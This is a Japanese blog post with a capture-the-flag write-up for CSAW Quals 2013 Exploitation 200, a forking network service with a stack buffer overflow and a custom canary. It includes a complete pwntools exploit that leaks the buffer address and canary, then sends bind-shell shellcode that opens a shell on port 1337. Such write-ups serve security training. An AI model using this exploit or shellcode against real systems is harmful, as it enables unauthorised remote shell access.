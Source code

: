 ```yaml
---
layout: post
alias: "/blog/2016/01/13/csaw-quals-2013-exploit2/"
date: 2016-01-13T01:21:13+09:00
tags: [ "ctf", "writeup", "pwn", "csaw-ctf", "shellcode", "port-bind", "buffer-overflow" ]
---
```


# CSAW Quals CTF 2013: Exploitation 200

## [Exploitation 200](https://github.com/ctfs/write-ups-2013/tree/master/csaw-quals-2013/exploitation/exploit2-200)

>   nc 128.238.66.212 31338  
>   [exploit2]()

与えられるバイナリは`0.0.0.0:31338`にsocketを開くので、これに接続する。
応答の先頭には変な文字が出力されている。

``` sh
$ ./exploit2 &
[2] 9327
$ nc localhost 31338 | xxd
Got a connection from 127.0.0.1 on port 34126
00000000: cc30 c6ff fbb0 4102 5765 6c63 6f6d 6520  .0....A.Welcome 
00000010: 746f 2043 5341 5720 4354 462e 2020 4578  to CSAW CTF.  Ex
00000020: 706c 6f69 7461 7469 6f6e 2032 2077 696c  ploitation 2 wil
00000030: 6c20 6265 2061 206c 6974 746c 6520 6861  l be a little ha
00000040: 7264 6572 2074 6869 7320 7965 6172 2e20  rder this year. 
00000050: 2049 6e73 6572 7420 796f 7572 2065 7870   Insert your exp

00000060: 6c6f 6974 2068 6572 653a 00              loit here:.
```

逆アセンブルして読むと以下が分かる。

-   中でforkしている
-   buffer overflowがある
-   canaryがいる (gccによるものでない、自前実装)
-   出力の先頭4byteはbufferへのpointer
-   次の4byteはcanaryの値

shellに繋がるportを開くshellcodeを投げ込めばよいようだ。

```
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools

context.log_level = 'debug'
p = remote('0.0.0.0', 31338)

buf = u32(p.recv(4))
canary = u32(p.recv(4))

# http://shell-storm.org/shellcode/files/shellcode-882.php
# Shell Bind TCP Shellcode Port 1337
shellcode = "\x6a\x66\x58\x6a\x01\x5b\x31\xf6\x56\x53\x6a\x02\x89\xe1\xcd\x80\x5f\x97\x93\xb0\x66\x56\x66\x68\x05\x39\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x56\x57\x89\xe1\xcd\x80\xb0\x66\x43\x56\x56\x57\x89\xe1\xcd\x80\x59\x59\xb1\x02\x93\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\x89\xca\xcd\x80"

payload = ''
payload += shellcode   # ebp - 0x80c
payload += 'A' * (0x800 - len(shellcode))
payload += p32(canary) # ebp - 0xc
payload += 'A' * 4     # ebp - 0x8, ebx
payload += 'A' * 4     # ebp - 0x4, edi
payload += 'A' * 4     # ebp, ebp
payload += p32(buf)    # ret
payload += 'A' * (0x1000 - len(payload))
p.send(payload)
```

